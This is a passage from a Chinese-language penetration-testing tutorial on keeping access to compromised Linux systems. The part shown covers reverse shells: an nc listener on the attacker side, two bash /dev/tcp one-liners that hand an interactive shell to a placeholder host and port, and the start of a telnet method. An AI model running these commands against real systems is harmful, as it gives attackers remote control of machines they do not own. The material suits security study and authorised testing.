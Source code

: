 # 

# Linux下的权限维持


# 权限维持 -- Linux

## 一、Basic Knowledge

### 1. 概念

可以简单理解为通过隐藏手段或在目标上安装后门以保持已获取的权限不会被打掉，一直控制目标，属于后渗透阶段的重点内容。

### 2. 前置条件 -- 获取初始权限

获取初始权限。最常见也是个人最喜欢的是反弹shell回来，方便后续操作。这里简单总结下反弹shell的常见手法：

#### 1. Bash反弹

攻击机监听：

```bash
nc -lvvp port
```

目标执行：

```bash
bash -i >& /dev/tcp/x.x.x.x/port 0>&1

```

或者

```bash
bash -i 5<>/dev/tcp/host/port 0>&5 1>&5
```

- `bash -i`：打开一个交互的bash
- `>& /dev/tcp/x.x.x.x/port`：调用socket建立链接，x.x.x.x为要接收shell的主机ip，port为端口，将标准错误和标准输出重定向到socket连接文件。
- `0>&1`：标准输入重定向到标准输出，此时标准输出指向socket连接，从而实现了与反弹shell的交互。

第二种则是将标准输入、输出和错误均重定向到socket连接文件。

**备注：Linux不同发行版之间存在差异，某些命令可能并不适用，可自行调整。**

#### 2. telnet反弹

第一种：

攻击机开2个终端，分别执行监听：

```bash
nc -lv port1
```

和
